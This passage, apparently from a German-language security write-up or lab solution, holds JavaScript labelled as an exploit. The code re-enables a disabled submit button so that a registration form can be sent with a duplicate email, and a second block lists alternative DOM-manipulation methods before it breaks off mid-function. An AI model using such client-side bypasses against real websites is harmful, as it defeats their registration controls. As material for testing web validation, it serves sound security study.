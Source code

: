 ```javascript
    const submitButton = document.querySelector('button[type="submit"], #registerButton');
    console.log('🔘 Button disabled before exploit:', submitButton?.disabled);
    
    // 6. Aktiviere den Button
    if (submitButton && submitButton.disabled) {
        console.log('🔧 Enabling disabled submit button...');
        
        // Entferne disabled Attribut
        submitButton.removeAttribute('disabled');
        submitButton.disabled = false;
        
        // Entferne CSS-Klassen die Button deaktivieren
        submitButton.classList.remove('disabled');
        submitButton.classList.add('btn-primary');
        
        // Entferne inline styles
        submitButton.style.pointerEvents = 'auto';
        submitButton.style.opacity = '1';
        
        console.log('✅ Button enabled!');
        console.log('🔘 Button disabled after exploit:', submitButton.disabled);
        
        // 7. Highlight des aktivierten Buttons
        submitButton.style.border = '3px solid #00ff00';
        submitButton.style.backgroundColor = '#28a745';
        
        console.log('🎯 Exploit completed! Button is now clickable.');
        console.log('📝 You can now submit the registration form with duplicate email.');
        
        return submitButton;
    } else {
        console.log('❌ Submit button not found or already enabled');
    }
}

// Starte den Exploit
exploitRepetitiveRegistration();
```

### 🔍 Alternative DOM-Manipulation Methoden

```javascript
// Methode 1: CSS Override
function enableButtonViaCSS() {
    const style = document.createElement('style');
    style.textContent = `
        button[disabled], 
        .disabled,
        .btn-disabled {
            pointer-events: auto !important;
            opacity: 1 !important;
            background-color: #007bff !important;
            cursor: pointer !important;
        }
    `;
    document.head.appendChild(style);
    console.log('✅ CSS override applied');
}

// Methode 2: Event-Delegation
function forceFormSubmission() {
    const form = document.querySelector('form');
    if (form) {
```
